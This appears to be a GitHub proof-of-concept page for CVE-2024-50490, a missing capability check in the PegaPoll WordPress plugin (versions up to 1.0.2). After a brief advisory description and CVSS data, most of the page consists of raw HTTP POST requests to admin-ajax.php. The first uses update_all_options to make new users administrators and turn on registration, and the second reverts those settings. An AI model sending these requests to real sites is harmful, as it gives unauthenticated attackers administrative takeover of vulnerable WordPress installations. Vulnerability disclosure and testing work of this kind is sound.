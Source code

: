 # CVE-2024-50490
PegaPoll &lt;= 1.0.2 - Unauthenticated Arbitrary Options Update

# Description:
The PegaPoll plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check in all versions up to, and including, 1.0.2. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50490
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: pegapoll
```

POC
---

Enable Registration and Default new user admin

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 91
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=update_all_options&options[default_role]=administrator&options[users_can_register]=1
```

Return to disable user registration and user is subscriber

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 91
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=update_all_options&options[default_role]=subscriber&options[users_can_register]=0
```


